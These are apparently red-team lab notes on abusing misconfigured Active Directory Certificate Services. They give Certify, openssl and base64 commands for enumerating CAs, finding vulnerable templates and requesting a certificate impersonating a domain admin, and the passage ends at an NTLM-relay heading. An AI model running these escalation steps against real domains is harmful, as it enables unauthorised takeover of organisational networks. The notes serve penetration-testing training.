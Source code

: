 # Active Directory Certificate Services

Active Directory Certificate Services (AD CS) is a server role that allows you to build a public key infrastructure (PKI).  This can provide public key cryptography, digital certificates, and digital signature capabilities.  Some practical applications include Secure/Multipurpose Internet Mail Extensions (S/MIME), secure wireless networks, VPN, Internet Protocol security (IPsec), Encrypting File System (EFS), smart card logon, and TLS. Correct implementation can improve the security of an organisation in confidentiality (encryption), integrity (digital signatures), and authentication (associate certificates with computer, user, or device accounts).

Misconfigurations can introduce exploitable security risks, like privilege escalation (even domain user to domain admin) and persistence. This module is derived from a research [whitepaper](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf).

## Finding Certificate Authorities

To find ADCS CAs in a domain or forest, run Certify with the cas parameter. This will output lots of useful information, including the root CA and subordinate CAs:

    beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas

The Cert Chain is useful to note (e.g. ```CN=ca,DC=cyberbotic,DC=io -> CN=sub-ca,DC=dev,DC=cyberbotic,DC=io``` shows that "sub-ca" in the DEV domain is a subordinate of "ca" in the CYBER domain). The output also lists the certificate templates at each CA, as well as some information about which principals are allowed to manage them.

## Misconfigured Certificate Templates

AD CS certificate templates are provided by Microsoft as a starting point for distributing certificates. They are designed to be duplicated and configured for specific needs. Misconfigurations within these templates can lead to privilege escalation. Certify can also find vulnerable templates:

    beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable

The following are some possible vulns:

* If ENROLLEE_SUPPLIES_SUBJECT is enabled, the certificate requestor can provide any SAN (subject alternative name).
* The certificate usage has Client Authentication set.
* DEV\Domain Users have enrollment rights, so any domain user may request a certificate.
* If an attacker controlled principal has WriteOwner, WriteDacl or WriteProperty.

If the configuration allows any domain user to request a cert for any other domain user (including a domain admin) and use it for authentication, do this:

1: Request a certificate for nlamb:

    beacon> getuid
    beacon> execute-assembly Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb

2: Copy the whole certificate (both private key and cert) and save to cert.pem on Ubuntu. Then use openssl to convert to pfx format:

    ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

3: Convert cert.pfx into a base64 encoded string to use with Rubeus:

    ubuntu@DESKTOP-3BSK7NO ~> cat cert.pfx | base64 -w 0

## NTLM Relaying to ADCS HTTP Endpoints

AD CS services support HTTP enrollment methods and even includes a GUI, usually found at http[s]://<hostname>/certsrv.



